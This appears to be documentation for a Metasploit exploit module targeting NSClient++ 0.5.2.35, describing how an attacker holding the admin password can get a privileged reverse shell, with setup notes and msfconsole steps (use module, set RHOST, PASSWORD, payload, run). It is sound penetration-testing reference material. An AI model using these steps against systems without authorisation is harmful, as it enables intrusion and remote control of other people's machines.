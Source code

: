 ## Description

This module allows an attacker with knowledge of the admin password of NSClient++ 0.5.2.35 to start a privilege reverse shell.
For this module to work, both web interface of NSClient++ and `ExternalScripts`feature
should be enabled.

## Installation

A vulnerable version of NSClient++ can be downloaded from [here]https://nsclient.org/download/). Then you can help yourself with this [installation guide](https://docs.nsclient.org/api/rest/) to complete the installation. Don't forget to enable the web interface and the `ExternalScripts` feature to allow the exploit to work.

## Verification Steps

List the steps needed to make sure this thing works

1. Start `msfconsole`
2. `use exploit/windows/http/nscp_authenticated_rce`
3. `set RHOST <target_host>`
4. `set PASSWORD <admin_password>` to set the admin password of NSClient++ web interface
5. `check` to check if the targeted NSClient++ is vulnerable
6. `set payload <choose_a_payload>` to set a specific payload to send
7. `run` the module to exploit the vulnerability and start a shell

## Options

**RHOSTS**

Set the target host.

**PASSWORD**

Set the PASSWORD of the admin account of NSClient++.
